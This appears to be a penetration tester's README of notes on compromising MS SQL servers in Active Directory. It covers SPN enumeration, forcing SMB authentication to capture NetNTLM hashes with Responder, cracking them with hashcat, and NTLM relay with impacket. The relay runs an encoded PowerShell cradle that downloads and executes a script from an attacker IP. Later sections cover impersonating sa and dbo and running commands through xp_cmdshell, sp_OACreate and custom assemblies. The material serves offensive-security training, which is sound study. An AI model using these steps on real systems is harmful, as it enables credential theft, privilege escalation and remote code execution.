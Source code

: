 #### MS SQL Enumeration

When a MS SQL server is running in the context of an Active Directory service account, it is
normally associated with a Service Principal Name (SPN). Threrefore a discreet way of locating instances of MS SQL in an Active Directory
environment is to query the domain controller for all registered SPNs related to MS SQL.

If we own a domain user, we can query the domain controller with the native **setspn** tool

-T is the domain flag 
```
C:\Tools> setspn -T corp1 -Q MSSQLSvc/*
Checking domain DC=corp1,DC=com
CN=SQLSvc,OU=Corp1ServiceAccounts,OU=Corp1Users,DC=corp1,DC=com
MSSQLSvc/appsrv01.corp1.com:1433
MSSQLSvc/appsrv01.corp1.com:SQLEXPRESS
MSSQLSvc/DC01.corp1.com:1433
```

#### MS SQL Authentication

Authentication in MS SQL is implemented in two stages. First, a traditional login is required. This
can be either an SQL server login or we can use Windows account-based authentication. SQL
server login is performed with local accounts on each individual SQL server. Windows
authentication on the other hand, works through Kerberos and allows any domain user to
authenticate with a Ticket Granting Service (TGS) ticket.

we may perform a login with the built-in SQL server sa account, which will map to
the datavase owner(dbo) account. If we perform a login with an account that has no associated SQL user
account, it will automatically be mapped to the built-in guest user account.

We can use SqlConnection class, [sqlconnect.cs](/13MSSQL/slqconnect.cs) to connect to the server. And run sql query.

#### UNC Path injection

We can force an SQL server with [forcesmb.cs](/13MSSQL/forcesmb.cs ) to connect to an SMB
share we control, the connection will include authentication data. If the hostname is given as an IP address, Windows will automatically revert to NTLM
authentication instead of Kerberos authentication.

on the attack machine, we need to set up the responder to catch the relay.

```
kali@kali:~$ sudo responder -I tap0

SQLSvc::corp1:00031db3ed40602b:A05501E7450025CF27120CE89BAF1C6E:0101000000000000C06531
50DE09D201F361A5C346497213000000000200080053004D004200330001001E00570049004E002D005000
.....
```
We can crack the NetNTLM hash with hashcat
```
kali@kali:~$ hashcat -m 5600 hash.txt dict.txt --force
```
#### relay the NetNTLM hash
First, we need to install impacket, and kali powershell
```
kali@kali:~$ sudo apt install python3-impacket
kali@kali:~$ sudo apt -y install powershell
```

invoke kali powershell to create base64encoded payload command 

```
kali@kali:~$ pwsh
PowerShell 7.0.

PS /home/kali> $text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.txt') | IEX"
PS /home/kali> $bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
PS /home/kali> $EncodedText = [Convert]::ToBase64String($bytes)
PS /home/kali> $EncodedText
KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AC
kALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAu
```

kick off netlm relay, and run our listener to catch the call back
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.120.6 -c 'powershell -enc payload'
```
#### Privilege Escalation

EXECUTE AS statement provides a way to execute a SQL query in the context of a different login or user. We could use this to escalate our ptivilege.

We can enumerate which logins allow impersonation, which get the this information using the database query
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals
b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
```
Putting in it a c# script, we have [enumimpernoate.cs](/13MSSQL/enumImpernoate.cs)

after running the code, i identify that the sa login allow impersonation, we will try to impersonate the sa login with EXECUTE AS LOGIN = sa. so we have [ImpersonateSA.cs](/13MSSQL/ImpernoateSA.cs)

However, a database user can only perform actions on a given database. This means that
impersonation of a user with sysadmin role membership in a database does not necessarily lead
to server-wide sysadmin role membership. To fully compromise the database server, the database user we impersonate must be in a
database that has the **TRUSTWORTHY** property set.

The only native database with the TRUSTWORTHY property enabled is **msdb**. As is the case with many databases, the database owner (dbo) user has the sysadmin role. we can update our ImpersonateSA c# script to [impersonateDBO.cs](/13MSSQL/ImpersonateDBO.cs )

#### Remote code execution with xp_cmdshell

The xp_cmdshell stored procedure spawns a Windows command shell and passes in a string that
is then executed. The output of the command is returned by the procedure. To do this, we’ll need to begin with the impersonation of the
sa login. After this, we’ll use the sp_configure stored procedure to activate the advanced options
and then enable xp_cmdshell. The full implementation is in [xpcmdshell.cs](/13MSSQL/xpcmdshell.cs)

#### Remote code execution with sp_OACreate and sp_OAMethod

We can also use the sp_OACreate and sp_OAMethod stored procedures to create and execute a new stored procedure based on [Object Linking and
Embedding](https://en.wikipedia.org/wiki/Object_Linking_and_Embedding)

SQL statement to create local variable and instantiate the OLE object.
```
DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT;
```


sp_OAMethod prototype, take the name of the procedure(objecttoken), method of the OLE(methodname)->run, optional output variable,and parameters for the invoked method
```
sp_OAMethod objecttoken , methodname
[ , returnvalue OUTPUT ]
[ , [ @parametername = ] parameter [ OUTPUT ] [ ...n ] ]
```
The example source code, [soOAMethod.cs](/13MSSQL/spOAMethod.cs) which create a file in remote host. 

#### Custom Assemblies
If a database has TRUSTWORTHY property set, it’s possible to use the CREATE ASSEMBLY924 statement to import a managed DLL as an object inside the SQL server and execute methods within it.

- 1.We will first create a Class Library, [cmdExec](/13MSSQL/cmdExec.cs) in .NET for cmd execution
- 2.We can compiled the cs into dll and convert it to a hex string [toHex.ps1](/13MSSQL/toHex.ps1). The hex string can be embbeded inside the  create assembly statement for later use.
